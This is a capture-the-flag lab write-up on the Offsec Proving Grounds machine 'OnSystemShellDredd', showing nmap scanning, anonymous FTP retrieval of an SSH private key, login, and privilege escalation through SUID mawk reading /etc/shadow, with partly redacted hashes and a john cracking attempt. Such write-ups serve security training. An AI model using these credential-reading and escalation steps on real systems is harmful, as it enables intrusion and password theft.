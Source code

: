 ```yaml
---
title: "Proving grounds Play: OnSystemShellDredd"
layout: post
date: 2023-07-07 22:10
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```

# Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/youtube.png)](https://youtu.be/UPYHCc7PdGQ)

# NMAP
```bash
naveenj@hackerspace|01:02 AM|~/Pg-Play$ nmap -p- --open -sV -sT -sC 192.168.191.130 -v -oN nmap                                                                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 01:02 EDT                                                
PORT      STATE SERVICE VERSION                                                              
21/tcp    open  ftp     vsftpd 3.0.3                                                         
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                       
| ftp-syst:                                                                                  
|   STAT:                                                                                    
| FTP server status:                                                                         
|      Connected to ::ffff:192.168.45.250                                                    
|      Logged in as ftp                                                                      
|      TYPE: ASCII                                                                           
|      No session bandwidth limit                                                            
|      Session timeout in seconds is 300                                                     
|      Control connection is plain text                                                      
|      Data connections will be plain text                                                   
|      At session startup, client count was 4                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                   
|_End of status                                                                              
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                       
| ssh-hostkey:                                                                               
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)                                              
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)                                             
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)                                           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                               
```

## FTP login
```bash
naveenj@hackerspace|01:07 AM|~$ ftp 192.168.191.130 21                                       
Connected to 192.168.191.130.                                                                
220 (vsFTPd 3.0.3)                                                                           
Name (192.168.191.130:naveenj): anonymous                                                    
331 Please specify the password.                                                             
Password:                                                                                    
230 Login successful.                                                                        
Remote system type is UNIX.                                                                  
Using binary mode to transfer files.                                                         
ftp>
```

### List directory
```sh
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||13654|)                                               
150 Here comes the directory listing.                                                        
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah                              
226 Directory send OK.                                                                       
ftp>
```

## Changing directory
```sh
ftp> cd .hannah                                                                              
250 Directory successfully changed.                                                          
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||8389|)                                                
150 Here comes the directory listing.                                                        
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa                               
226 Directory send OK.                                                                       
ftp>
```

## Get id_rsa key for user hannah
```sh
ftp> get id_rsa                                                                              
local: id_rsa remote: id_rsa                                                                 
229 Entering Extended Passive Mode (|||17682|)                                               
150 Opening BINARY mode data connection for id_rsa (1823 bytes).                             
100% |************************************************|  1823       11.66 MiB/s    00:00 ETA 
226 Transfer complete.                                                                       
1823 bytes received in 00:00 (8.97 KiB/s)                                                    
ftp>
```

## Login to hannah user using ssh
```sh
naveenj@hackerspace|01:12 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130                                                                                     
ssh: connect to host 192.168.191.130 port 22: Connection refused
```

Apply required permission such as `chmod 600` to the id_rsa file. Still the connection will be refused. As we have one more ssh service running on PORT 61000, we can try to connect there.

```sh
naveenj@hackerspace|01:15 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130 -p 61000                                                                           
                                                                 
hannah@ShellDredd:~$ 
```
Whooo! we are logged in to hannah user now.

### Obtaining Flag
```sh
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ cat user.txt
Your flag is in another file...
hannah@ShellDredd:~$ cat local.txt
5b571██████████████████████████
hannah@ShellDredd:~$ 
```

# Privilege Escalation
Get SUIDs and GUIDs

### SUIDs
```sh
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk #--strange binary
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit #--strange binary
/usr/bin/mount
/usr/bin/passwd
```

### GUIDs
```sh
hannah@ShellDredd:~$ find / -perm -g=s -type f 2>/dev/null
/usr/sbin/unix_chkpwd
/usr/bin/wall
/usr/bin/mawk
/usr/bin/ssh-agent
/usr/bin/crontab
/usr/bin/chage
/usr/bin/expiry
/usr/bin/bsd-write
/usr/bin/cpulimit
/usr/bin/dotlockfile
```

Search for the exploit in GFTObins for the strange binary `mawk`

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_mawk.png)

The exploit worked and we are able to view the shadow file which contains hash of the users passwords.

```sh
hannah@ShellDredd:~$ mawk '//' "/etc/shadow" | grep -iE 'root|hannah'
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFw█████████████████████████████████████████████████████████:18656:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6R██████████████████████████████████████████████████████.:18656:0:99999:7:::
```

Let's start cracking the hashes using john or crackstation.

Copy both the passwd and shadow files to the local machine to unshadow.

`unshadow passwd shadow > crackme` run the command to unshadow the file.

### Running john
```sh
naveenj@hackerspace|01:56 AM|~/Pg-Play/OnSystemShellDredd/files$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt                                                                 
Using default input encoding: UTF-8                                                          
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])                                                                                       
Cost 1 (iteration count) is 5000 for all loaded hashes                                       
Will run 4 OpenMP threads                                                                    
Press 'q' or Ctrl-C to abort, almost any other key for status
```

After a while there is no progress, so lets check another way.

Let's check the `/usr/bin/cpulimit` binary in GTFObins for exploits.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_cpulimit.png)

Running the exploit command.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/root.png)

Obtained root and proof flag.

*Happy Hacking!*

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
